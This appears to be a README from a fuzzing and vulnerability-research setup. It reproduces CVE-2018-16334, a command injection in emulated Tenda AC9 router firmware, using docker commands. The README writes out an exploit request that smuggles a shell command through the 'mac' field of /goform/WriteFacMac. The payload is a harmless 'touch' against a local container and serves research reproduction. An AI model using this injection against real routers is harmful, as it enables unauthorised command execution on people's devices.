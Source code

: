 Greenhoused firmware of tenda_cn_ac9_v15.03.05.19

To build the container:
```
docker build . -t cve-2018-16334
docker run -p 8080:80 cve-2018-16334
```

To run the exploit:
```
bash exploit.sh localhost 8080 "touch /tmp/x"
```

docker kill gh; sleep 1; docker run -id --privileged --rm -v /var/run/docker.sock:/var/run/docker.sock -v /p:/p -e "AFL_META_INFO_ID=80" -p 81:80 --name gh witcher/cve-2018-16334 && sleep 3 && curl -v http://172.17.0.3 |& grep "302 Redirect" && echo "up and running"

# run with exploit
docker exec -it gh /bin/ash -c 'printf "csrftoken=aaa; password=bbb\x00\x00mac=11:22:33:44:55:66;touch /tmp/y" | AFL_META_INFO_ID="80" /httpreqr --method POST --url http://127.0.0.1:80/goform/WriteFacMac; sleep 1;ls -la /tmp/'

#showmap with exploit
docker exec -it gh /bin/ash -c 'printf "csrftoken=aaa; password=bbb\x00\x00mac=11:22:33:44:55:66;touch /tmp/z" | AFL_META_INFO_ID="80" /afl/afl-showmap -m4G -o /tmp/mapout /httpreqr --method POST --url http://127.0.0.1:80/goform/WriteFacMac'



